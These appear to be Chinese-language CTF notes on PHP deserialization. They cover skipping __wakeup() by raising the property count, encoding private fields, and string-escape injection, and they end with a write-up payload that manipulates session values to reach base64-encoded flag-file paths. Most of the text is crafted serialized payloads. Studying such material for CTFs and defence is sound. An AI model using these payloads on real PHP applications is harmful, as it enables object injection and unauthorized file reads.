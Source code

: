 反序列化时会先执行`__wakeup()`魔术方法，然后执行`__destruct() `。

在反序列化字符串时，属性个数的值大于实际属性个数时，会跳过 `__wakeup()`函数的执行

原始：

```php
O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}
```

跳过 `__wakeup()`函数

```php
O:4:"Name":3:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}
```

私有字段的字段名在序列化时，类名和字段名前面都会加上0的前缀。字符串长度也包括所加前缀的长度

```php
O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```

#### 序列化代码

```
<?php

class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
}
$a = new Name('admin', 100);
var_dump(serialize($a));

?>
```

#### 反序列化字符逃逸

```php
<?php
$str='a:2:{i:0;s:8:"Hed9eh0g";i:1;s:5:"aaaaa";}';
var_dump(unserialize($str));

$str='a:2:{i:0;s:8:"Hed9eh0g";i:1;s:5:"aaaaa";}abc';
var_dump(unserialize($str));
?>
```

结果一致

wp

```php
$_SESSION["user"]='flagflagflagflagflagflag'；
$_SESSION["function"]='a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}';
$_SESSION["img"]='L2QwZzNfZmxsbGxsbGFn';
echo serialize($_SESSION);
```
